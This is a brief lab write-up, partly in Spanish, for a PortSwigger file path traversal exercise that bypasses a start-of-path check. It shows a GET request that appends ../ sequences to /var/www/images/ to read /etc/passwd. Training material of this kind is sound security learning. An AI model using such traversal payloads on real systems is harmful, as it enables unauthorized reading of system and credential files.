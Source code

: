 # 5 - Validation of start of path

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

![](../../.gitbook/assets/imagen%20%28632%29.png)

```text
GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/1.1
```

Recordar que nos queremos paarar en la base folder desp de images, entonces son 4 backs

